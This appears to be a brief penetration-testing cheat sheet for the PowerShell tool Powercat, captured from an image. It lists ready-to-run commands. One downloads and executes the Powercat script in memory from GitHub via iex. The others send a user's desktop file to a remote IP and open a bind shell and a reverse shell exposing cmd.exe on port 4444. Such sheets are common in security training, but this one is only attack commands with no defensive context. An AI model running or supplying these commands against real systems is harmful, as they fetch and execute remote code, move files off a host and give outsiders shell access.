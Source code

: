 Powercat

#########
Download Powercat:

iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
---------------------------------------------------------------------------------
Powercat File Transfers:

powercat -c 192.168.1.7 -p 8000 -i C:\Users\limbo\Desktop\file.txt
---------------------------------------------------------------------------------
Powercat Bind Shells:

powercat -l -p 4444 -e cmd.exe
---------------------------------------------------------------------------------
Powercat Reverse Shells:

powercat -c 192.168.1.7 -p 4444 -e cmd.exe